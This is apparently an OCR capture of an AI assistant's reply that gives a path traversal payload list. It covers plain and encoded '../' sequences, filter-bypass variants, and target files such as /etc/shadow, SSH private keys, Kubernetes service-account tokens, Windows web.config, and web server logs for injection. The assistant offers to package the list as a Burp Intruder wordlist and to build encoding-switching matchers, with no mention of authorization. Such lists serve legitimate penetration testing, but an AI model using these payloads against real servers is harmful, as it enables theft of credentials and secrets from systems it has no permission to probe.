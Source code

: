Let me know if you'd like this exported into a Burp Intruder wordlist, YAML config, or integrated into your passive scanner logic. I can also help you build a matcher that auto-switches encoding variants (`../`, `%2e%2e%2f`, etc.) for each parameter. Ready to modularize it 🔧📁
---

### **1. Basic Traversal Payloads**
```text
../, ..\, ..//, ..\\, .../, ...\\
../../../../../../etc/passwd
..%2f..%2f..%2f..%2fetc/passwd
..%252f..%252f..%252f..%252fetc/passwd
```

---

### **2. Encoded Variants**
```text
%2e%2e%2f, %252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%u002e%u002e%u2215
```

---

### **3. Bypass Techniques**
```text
..././, ...\\.\\, ..;/, ..%00/
\\\\localhost\\c$\\windows\\win.ini
////////../../../../etc/passwd
```

---

### **4. Target Files (Linux)**
```text
/etc/passwd, /etc/shadow, /etc/hosts, /proc/self/environ, /proc/version
/home/$USER/.bash_history, /home/$USER/.ssh/id_rsa
/run/secrets/kubernetes.io/serviceaccount/token
```

---

### **5. Target Files (Windows)**
```text
c:/windows/system32/license.rtf
c:/boot.ini, c:/inetpub/wwwroot/web.config
c:/sysprep/sysprep.xml, c:/system32/inetsrv/metabase.xml
```

---

### **6. Log File Injection Targets**
```text
/var/log/apache/access.log
/var/log/nginx/error.log
/usr/local/apache2/log/error_log
```

---